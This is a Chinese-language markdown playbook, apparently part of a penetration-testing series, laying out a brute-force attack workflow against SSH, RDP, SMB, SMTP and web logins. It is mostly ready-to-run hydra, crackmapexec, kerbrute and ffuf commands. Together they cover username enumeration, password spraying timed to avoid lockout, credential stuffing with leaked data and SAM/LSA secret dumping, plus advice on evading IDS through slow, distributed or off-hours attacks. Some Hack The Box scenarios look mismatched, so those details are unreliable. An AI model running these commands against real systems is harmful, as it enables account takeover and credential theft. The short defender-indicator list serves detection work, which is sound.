

# 暴力破解攻击状态机

## 概述
暴力破解是通过系统化尝试所有可能的凭证组合来获取访问权限的攻击方式。本状态机涵盖用户名枚举、密码喷洒、凭证填充等多种暴力破解技术。

## 攻击流程图



## 状态转换表

| 当前状态 | 条件 | 动作 | 下一状态 | 工具 |
|---------|------|------|---------|------|
| 发现服务 | SSH (22) | 识别为 SSH | 用户名枚举 | nmap |
| 发现服务 | RDP (3389) | 识别为 RDP | 用户名枚举 | nmap |
| 发现服务 | HTTP (80/443) | 识别为 Web | 查找登录页面 | nikto, dirb |
| 发现服务 | SMB (445) | 识别为 SMB | 用户名枚举 | nmap |
| 用户名枚举 | SMTP 可用 | VRFY 枚举 | 获得用户列表 | smtp-user-enum |
| 用户名枚举 | Kerberos 可用 | 预认证枚举 | 获得用户列表 | kerbrute |
| 用户名枚举 | SMB 可用 | RID 循环 | 获得用户列表 | enum4linux |
| 攻击策略 | 无锁定策略 | 暴力破解 | 全量尝试 | hydra |
| 攻击策略 | 有锁定策略 | 密码喷洒 | 单密码多用户 | crackmapexec |
| 攻击策略 | 有泄露数据 | 凭证填充 | 测试已知凭证 | hydra |
| 攻击执行 | 成功登录 | 验证权限 | 后续利用 | - |
| 攻击执行 | 触发限速 | 降低速度 | 重新攻击 | - |
| 攻击执行 | 账户锁定 | 切换策略 | 密码喷洒 | - |

## 决策树

### 1. 服务识别与用户名枚举
```
IF 发现 SSH 服务 (22)
  THEN 尝试用户名枚举
    IF 响应时间差异明显
      THEN 使用时间侧信道枚举
        hydra -L users.txt -p invalid ssh://target -t 1
        (观察响应时间差异)
    ELSE
      使用通用用户名列表
        /usr/share/metasploit-framework/data/wordlists/unix_users.txt

ELSE IF 发现 SMTP 服务 (25)
  THEN 使用 VRFY 命令枚举
    smtp-user-enum -M VRFY -U users.txt -t target
    IF VRFY 被禁用
      THEN 尝试 EXPN 或 RCPT TO

ELSE IF 发现 Windows 域 (Kerberos 88)
  THEN 使用 Kerberos 预认证枚举
    kerbrute userenum -d domain.local users.txt --dc target
    (不会触发登录失败日志)

ELSE IF 发现 SMB 服务 (445)
  THEN 使用 RID 循环枚举
    enum4linux -U target
    OR crackmapexec smb target --users
```

### 2. 攻击策略选择
```
IF 目标有账户锁定策略
  THEN 使用密码喷洒
    crackmapexec smb target -u users.txt -p 'Password123!' --continue-on-success
    (单密码测试所有用户，避免锁定)

    等待锁定时间窗口后再次尝试
    sleep 1800  # 等待 30 分钟
    crackmapexec smb target -u users.txt -p 'Welcome1!'

ELSE IF 有已泄露凭证数据库
  THEN 使用凭证填充
    hydra -C leaked_creds.txt ssh://target
    (格式: username:password)

ELSE IF 无明显防护
  THEN 使用暴力破解
    hydra -L users.txt -P passwords.txt ssh://target -t 4
```

### 3. 工具选择
```
IF 目标是 SSH/FTP/Telnet
  THEN 使用 hydra
    hydra -L users.txt -P pass.txt ssh://target

ELSE IF 目标是 RDP
  THEN 使用 hydra RDP 模块
    hydra -L users.txt -P pass.txt rdp://target
    OR 使用 crowbar
    crowbar -b rdp -s target/32 -u admin -C pass.txt

ELSE IF 目标是 Windows SMB/域
  THEN 使用 crackmapexec
    crackmapexec smb target -u users.txt -p pass.txt
    (支持密码喷洒、Pass-the-Hash)

ELSE IF 目标是 Web 应用
  THEN 使用 hydra HTTP 模块
    hydra -L users.txt -P pass.txt target http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect"
    OR 使用 ffuf
    ffuf -w users.txt:USER -w pass.txt:PASS -u http://target/login -d "username=USER&password=PASS" -fc 401
```

### 4. 速度控制
```
IF 检测到限速或 WAF
  THEN 降低攻击速度
    hydra -L users.txt -P pass.txt ssh://target -t 1 -w 10
    # -t 1: 单线程
    # -w 10: 每次尝试间隔 10 秒

ELSE IF 检测到账户锁定
  THEN 切换到密码喷洒
    # 每个密码尝试后等待锁定时间窗口
    for pass in Password123! Welcome1! Admin123!; do
      crackmapexec smb target -u users.txt -p "$pass"
      sleep 1800  # 等待 30 分钟
    done

ELSE IF 无明显防护
  THEN 使用多线程加速
    hydra -L users.txt -P pass.txt ssh://target -t 16
```

## 实战场景

### 场景 1: SSH 暴力破解
**HTB 靶机**: Lame

**攻击链路**:
1. 扫描发现 SSH 服务
   ```bash
   nmap -p 22 -sV target
   ```

2. 准备用户名列表
   ```bash
   cat > users.txt << EOF
   root
   admin
   user
   test
   EOF
   ```

3. 暴力破解
   ```bash
   hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://target -t 4
   ```
   - `-t 4`: 4 个并发线程
   - 观察输出，成功会显示 `[22][ssh] host: target login: root password: password`

4. 验证凭证
   ```bash
   ssh root@target
   ```

### 场景 2: Windows 域密码喷洒
**HTB 靶机**: Active

**攻击链路**:
1. 枚举域用户
   ```bash
   kerbrute userenum -d active.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.100
   ```
   输出: 发现用户 `administrator`, `SVC_TGS`, `user1`

2. 准备常见密码列表
   ```bash
   cat > common_passwords.txt << EOF
   Password123!
   Welcome1
   Summer2024!
   Company123!
   EOF
   ```

3. 密码喷洒攻击
   ```bash
   crackmapexec smb 10.10.10.100 -u users.txt -p 'Password123!' --continue-on-success
   ```
   - `--continue-on-success`: 找到有效凭证后继续测试

4. 如果成功，验证权限
   ```bash
   crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'Password123!' --shares
   ```

### 场景 3: Web 应用登录暴力破解
**HTB 靶机**: Nineveh

**攻击链路**:
1. 发现登录页面
   ```bash
   dirb http://target /usr/share/wordlists/dirb/common.txt
   ```
   发现: `/admin/login.php`

2. 分析登录请求
   ```bash
   # 使用 Burp Suite 抓包，或直接测试
   curl -X POST http://target/admin/login.php -d "username=admin&password=test" -v
   ```
   观察失败响应: `Login failed`

3. 暴力破解
   ```bash
   hydra -l admin -P /usr/share/wordlists/rockyou.txt target http-post-form "/admin/login.php:username=^USER^&password=^PASS^:F=Login failed" -t 10
   ```
   - `F=Login failed`: 失败标志字符串

4. 或使用 ffuf
   ```bash
   ffuf -w /usr/share/wordlists/rockyou.txt -u http://target/admin/login.php -d "username=admin&password=FUZZ" -fc 200 -fs 1234
   ```
   - `-fc 200`: 过滤状态码 200
   - `-fs 1234`: 过滤响应大小 1234（失败响应的大小）

### 场景 4: RDP 暴力破解
**HTB 靶机**: Blue

**攻击链路**:
1. 扫描 RDP 服务
   ```bash
   nmap -p 3389 -sV target
   ```

2. 使用 hydra 暴力破解
   ```bash
   hydra -L users.txt -P passwords.txt rdp://target -t 1
   ```
   - `-t 1`: RDP 对并发敏感，使用单线程

3. 或使用 crowbar
   ```bash
   crowbar -b rdp -s target/32 -u administrator -C /usr/share/wordlists/rockyou.txt -n 1
   ```
   - `-n 1`: 单线程

4. 成功后使用 rdesktop 连接
   ```bash
   rdesktop -u administrator -p password target
   ```

### 场景 5: SMTP 用户名枚举 + SSH 暴力破解
**HTB 靶机**: Beep

**攻击链路**:
1. 发现 SMTP 服务
   ```bash
   nmap -p 25 -sV target
   ```

2. 枚举有效用户名
   ```bash
   smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t target
   ```
   输出: 发现用户 `root`, `admin`, `asterisk`

3. 保存有效用户名
   ```bash
   cat > valid_users.txt << EOF
   root
   admin
   asterisk
   EOF
   ```

4. 针对 SSH 暴力破解
   ```bash
   hydra -L valid_users.txt -P /usr/share/wordlists/rockyou.txt ssh://target -t 4
   ```

5. 成功后登录
   ```bash
   ssh asterisk@target
   ```

### 场景 6: 凭证填充攻击
**HTB 靶机**: Cronos

**攻击链路**:
1. 获得泄露凭证数据库（假设从其他渠道获得）
   ```bash
   cat > leaked_creds.txt << EOF
   admin:password123
   user:welcome1
   test:test123
   EOF
   ```

2. 使用凭证填充
   ```bash
   hydra -C leaked_creds.txt ssh://target
   ```
   - `-C`: 使用 colon 分隔的凭证文件

3. 或针对 Web 应用
   ```bash
   # 转换格式
   awk -F: '{print $1}' leaked_creds.txt > users.txt
   awk -F: '{print $2}' leaked_creds.txt > passwords.txt

   # 并行测试
   hydra -L users.txt -P passwords.txt target http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect"
   ```

## 工具对比

| 工具 | 支持协议 | 优势 | 劣势 | 使用场景 |
|------|---------|------|------|---------|
| **hydra** | 50+ 协议 | 协议支持最全，易用 | 速度控制不够精细 | 通用暴力破解 |
| **medusa** | 20+ 协议 | 并发控制好，稳定 | 协议支持少于 hydra | 需要精细控制的场景 |
| **crackmapexec** | SMB/LDAP/SSH/WinRM | Windows 专用，密码喷洒 | 仅限 Windows 环境 | 域环境攻击 |
| **crowbar** | RDP/VNC/SSH | RDP 支持好 | 协议支持少 | RDP 暴力破解 |
| **patator** | 模块化 | 高度可定制 | 配置复杂 | 特殊场景定制 |
| **ncrack** | 多协议 | Nmap 集成 | 功能少于 hydra | Nmap 工作流集成 |

## 关键技巧

### 1. 避免账户锁定
```bash
# 密码喷洒：单密码测试多用户
for password in Password123! Welcome1! Summer2024!; do
  crackmapexec smb target -u users.txt -p "$password" --continue-on-success
  echo "等待 30 分钟避免锁定..."
  sleep 1800
done

# 限制尝试次数
hydra -L users.txt -P top10.txt ssh://target
# 只使用 top 10 密码，降低锁定风险
```

### 2. 速度优化
```bash
# 快速模式（无防护时）
hydra -L users.txt -P pass.txt ssh://target -t 16 -V
# -t 16: 16 线程
# -V: 显示详细输出

# 慢速模式（有防护时）
hydra -L users.txt -P pass.txt ssh://target -t 1 -w 30
# -t 1: 单线程
# -w 30: 每次尝试间隔 30 秒
```

### 3. 用户名枚举技巧
```bash
# Kerberos 预认证枚举（不触发日志）
kerbrute userenum -d domain.local users.txt --dc target

# SMTP VRFY 枚举
smtp-user-enum -M VRFY -U users.txt -t target

# SMB RID 循环
for i in $(seq 500 1100); do
  rpcclient -U "" -N target -c "lookupnames $(printf '0x%x' $i)"
done

# Web 用户名枚举（响应差异）
ffuf -w users.txt -u http://target/login -d "username=FUZZ&password=invalid" -mc all -fs 1234
# -fs 1234: 过滤失败响应大小
```

### 4. 凭证验证
```bash
# 批量验证凭证
crackmapexec smb target -u users.txt -p passwords.txt --continue-on-success

# 验证权限级别
crackmapexec smb target -u admin -p pass --shares
crackmapexec smb target -u admin -p pass --sam
crackmapexec smb target -u admin -p pass --lsa
```

## 防御检测

**攻击者视角的防御绕过**:
- 使用慢速攻击避免触发 IDS
- 分布式攻击源（多 IP）
- 密码喷洒避免账户锁定
- 使用已泄露凭证（凭证填充）
- 在非工作时间攻击

**防御者检测指标**:
- 短时间内大量失败登录（Event ID 4625）
- 单 IP 多用户尝试
- 单用户多 IP 尝试
- 非工作时间的登录尝试
- 成功登录后立即异常行为

## 相关状态机
- [08-password-attack.md](08-password-attack.md) - [密码破解](08-password-attack.md)（离线）
- [04-active-directory-attack.md](04-active-directory-attack.md) - 域环境密码喷洒
- [03-web-application-attack.md](03-web-application-attack.md) - Web 登录暴力破解
- [01-network-service-enumeration.md](01-network-service-enumeration.md) - 服务发现
